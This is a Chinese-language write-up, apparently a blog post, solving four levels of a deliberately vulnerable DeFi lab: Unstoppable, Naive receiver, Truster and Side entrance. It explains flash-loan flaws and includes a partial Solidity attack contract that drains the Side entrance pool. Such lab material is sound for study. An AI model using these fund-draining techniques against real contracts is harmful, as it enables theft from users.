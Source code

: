 记录下这个靶场的刷题。这个靶场需要js基础，最好先去把js语法看一看。

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/12840c7a0cdf41809aeacc8b69d214c8~tplv-k3u1fbpfcp-watermark.image?)
# 1.unstoppable
题目要求：攻击目标合约让他停止工作。
UnstoppableLender合约就是一个闪电贷合约，ReceiverUnstoppable合约就是借钱者合约。

想要闪电贷合约停止工作很简单，直接找会panic的地方。在flashLoan函数里有一句`assert(poolBalance == balanceBefore);`所以我们只要让他们两不相等就行。

只要不通过depositTokens函数给合约传钱就可以让poolbalance与合约余额不相等，因为初始化我们拥有100个ether，所以直接transfer 1ether给他就可以。

## 攻击代码：

![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/2199ad444ff2471fa387d8148a39a6f5~tplv-k3u1fbpfcp-watermark.image?)

# 2.Naive receiver
题目要求：抽空用户合约里的所有eth。
目前闪电合约里有1000ETH,用户合约有10ETH.

这次的贷款合约每次借款都会收取1 ETH的费用，而且flashLoan函数不是以msg.sender去借款而是borrower去借款，那么我们就可以帮用户合约借10款目的就达到了。

## 攻击代码：

![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/7c2a3ece0a8f4c72a095017dfadeae83~tplv-k3u1fbpfcp-watermark.image?)


# 3.Truster
题目要求：拿走贷款合约里的所有钱.  
很明显考的是call注入，data里调用approve给攻击者地址授权，然后再用transferfrom将钱转过来.

## 攻击代码：

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f57d884ac8634c20961a65092fa1a68d~tplv-k3u1fbpfcp-watermark.image?)

# 4. Side entrance
题目要求：清空贷款合约的钱

这次合约新增了`deposit`和`withdraw`函数，可以在合约里存钱取钱。当然咯，问题也出在这里的，我们可以先借再存再取回，就绕过了`require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back"); `这个限制。

## 攻击代码
**攻击合约**
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./SideEntranceLenderPool.sol";
contract attack{
     using Address for address payable;
   SideEntranceLenderPool pool;
constructor(address Ipool)public{
    pool=SideEntranceLenderPool(Ipool);
}
function att1()public{
    pool.flashLoan(address(pool).balance);
    pool.withdraw();
    payable(msg.sender).transfer(address(this).balance);
} 
```